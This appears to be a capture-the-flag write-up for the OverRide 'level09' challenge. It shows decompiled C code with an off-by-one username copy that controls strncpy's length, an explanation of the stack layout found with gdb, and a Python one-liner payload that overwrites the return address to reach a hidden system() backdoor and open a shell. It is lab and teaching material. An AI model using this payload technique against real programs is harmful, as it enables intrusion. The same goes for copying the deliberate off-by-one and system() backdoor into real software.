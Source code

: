 # Level09

## Code
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>

int secret_backdoor()
{
  char s[128];

  fgets(s, 128, stdin);
  return system(s);
}

int handle_msg()
{
  char buffer[140]; 
//   __int64_t v2;
//   __int64_t v3; 
//   __int64_t v4; 
//   __int64_t v5; 
//   __int64_t v6; 
//   int v7; 

//   v2 = 0LL;
//   v3 = 0LL;
//   v4 = 0LL;
//   v5 = 0LL;
//   v6 = 0LL;
//   v7 = 140;
  set_username(buffer);
  set_msg(buffer);
  return puts(">: Msg sent!");
}


char *set_msg(char *buffer)
{
  char s[1024]; 

  memset(s, 0, sizeof(s));
  puts(">: Msg @Unix-Dude");
  printf(">>: ");
  fgets(s, 1024, stdin);
  return strncpy(buffer, s, *(int *)(buffer + 180));
}


int set_username(char *buffer)
{
  char s[140]; 
  int i;

  memset(s, 0, 0x80uLL);
  puts(">: Enter your username");
  printf(">>: ");
  fgets(s, 128, stdin);
  for ( i = 0; i <= 40 && s[i]; ++i )
    *(_BYTE *)(buffer + i + 140) = s[i];
  return printf(">: Welcome, %s", buffer + 140);
}


int main(int argc, const char **argv, const char **envp)
{
  puts(
    "--------------------------------------------\n"
    "|   ~Welcome to l33t-m$n ~    buffer337        |\n"
    "--------------------------------------------");
  handle_msg();
  return 0;
}
```

## Explanation

- This program asks for a username and a message to send.

- The security breach here is that the program copies 41 bytes for the username instead of 40, and then uses this unwanted 41st byte as `strncpy()`'s 3rd argument when copying the user's message. 

- Thanks to gdb, we understood that in the `handle_message()` function, the return address was 192 + 8 = 200 bytes after the beginning of our buffer in the stack.

- So the strategy is to give a username of 41 bytes, with a 41st byte big enough to be converted to a value bigger than 200, in order to overwrite the return address of `handle_message()` and replace it with the address of the `secret_backdoor()` function which allows us to make a command with `system()`.

- So we got the address of the function : `0x000055555555488c`

- Luckily, only the last 2 bytes are different from the original return address of the function, so we just needed to write 48 and 8c, so 202 bytes (ca in hexa) is enough to copy. We now have all we need to craft our final payload.

## Exploit 

```
level09@OverRide:~$ (python -c'print "A" * 40 + "\xca"'; python -c'print "A" * 200 + "\x48\x8c"[::-1]'; cat)  | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
whoami
end

```
